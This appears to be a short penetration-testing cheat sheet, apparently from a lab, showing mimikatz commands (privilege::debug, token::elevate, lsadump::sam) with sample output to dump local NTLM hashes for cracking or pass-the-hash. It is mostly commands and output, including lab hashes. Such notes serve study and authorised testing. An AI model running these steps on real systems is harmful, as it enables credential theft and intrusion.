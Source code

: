 # mimikatz
Full breakdown available here: [Mimikatz](https://tools.thehacker.recipes/mimikatz)

## Rudimentary setup for dumping NTLM hashes for cracking or pass-the-hash attacks.

To use *sekurlsa::logonpasswords* or *lsadump::sam* we need **SeDebugPrivilege** use this to enable it. So at the `mimikatz #` console use the following.

### Set Debug Privilege

This sets the debug privilege.

```console
privilege::debug
```
Success looks like:
```console
Privilege '20' OK
```
### Impersonate via token

This tells mimikatz to use a token that impersonates another entity and by default it's `SYSTEM` thus `NT AUTHORITY\SYSTEM`.
```console
token::elevate
```
Success looks like:
```console
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
### Dump hashes
If the previous two were successfull, now we can get NTLM hashes for users with this.

```console
lsadump::sam
```
Success looks like:
```console
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
